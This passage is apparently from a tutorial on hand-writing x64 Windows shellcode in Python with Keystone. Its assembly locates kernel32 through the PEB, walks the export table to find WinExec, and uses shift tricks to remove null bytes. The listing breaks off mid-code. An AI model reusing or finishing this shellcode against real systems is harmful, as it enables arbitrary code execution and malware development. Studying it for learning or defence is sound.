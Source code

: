 The code to add to the script is the following:

```
"   mov rax, 0x636578456E6957FF;"   # Load the calculated initial value
"   shr rax, 0x8;"                  # Shift right by 8 bits to get the desired WinExec string
```

### Final Code

```
import ctypes, struct
import os
import subprocess
from keystone import *
 
def main():
    SHELLCODE = (
        " start: "
        # "   int3;"                        # Breakpoint
        # "  sub rsp, 0x208;"               # Free up space in the stack (Null Byte)
        "   add rsp, 0xfffffffffffffdf8;"   # Free up space in the stack (Fix)
        " locate_kernel32:"
        "   xor rcx, rcx;"                  # Null RCX content
        "   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
        "   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
        "   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   xchg rax, rsi;"                 # Swap RAX & RSI
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   mov rbx, [rax + 0x20];"         # RBX = Kernel32 base address
        "   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
        "   mov ebx, [rbx+0x3C];"           # Get offset to the PE header from the DOS header at offset 0x3C
        "   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
        # "   mov edx, [rbx+0x88];"         # Get Relative Virtual Address (RVA) of Export Address Table from PE header (Null Byte)
        # Fix below
        "   xor r12, r12;"                  # Zero out r12 to start fresh
        "   add r12, 0x88FFFFF;"            # Load r12 with a large number
        "   shr r12, 0x14;"                 # Right-shift r12 by 20 bits to get 0x88
        "   mov edx, [rbx+r12];"            # Move the value at rbx+0x88 into edx
        "   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
        "   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
        "   xor r11, r11;"                  # Zero out R11 to use it as a clean register
        "   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
        "   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
        "   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
        "kernel32findfunction: "
        " jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
        "   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
        "   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
        "   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
        "   dec rcx;"                       # Decrement the loop counter
        #"   mov rax, 0x00636578456E6957;"  # Load the ASCII value of 'WinExec' into RAX for comparison          
        # Fix below
        "   mov rax, 0x636578456E6957FF;"   # Load the calculated initial value
```